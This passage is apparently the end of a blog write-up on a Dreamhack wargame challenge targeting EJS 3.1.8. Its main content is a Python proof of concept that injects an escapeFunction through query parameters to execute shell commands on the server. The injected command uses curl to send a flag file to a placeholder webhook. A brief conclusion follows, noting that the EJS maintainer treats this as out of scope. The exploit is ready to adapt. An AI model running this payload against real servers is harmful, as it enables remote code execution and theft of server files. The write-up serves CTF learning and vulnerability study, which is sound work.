 
## POC

[ejs@3.1.8](https://dreamhack.io/wargame/challenges/675)

```py
import requests
import sys

url = f"http://host3.dreamhack.games:17023"

webhook = "WEBHOOK"
params ='&'.join([
  'settings[view options][client]=true',
  'settings[view options][escapeFunction]=function(){process.mainModule.require("child_process").execSync("curl '+webhook +' -d $(cat ../../../flag)")}'
])

res = requests.get(f'{url}/?{params}')
print(res.text)
```

## Conclusion

---

EJS's author [Matthew Eernisse](https://github.com/mde) take things as `Out-of-Scope Vulnerabilities`.

![alt text](assets/img/2025-03-08 17-48-06.png)

Therefore, we should use EJS module in a secure manner.

I aspire to discover and analyze similar vulnerabilities in the future.

Thanks for reading.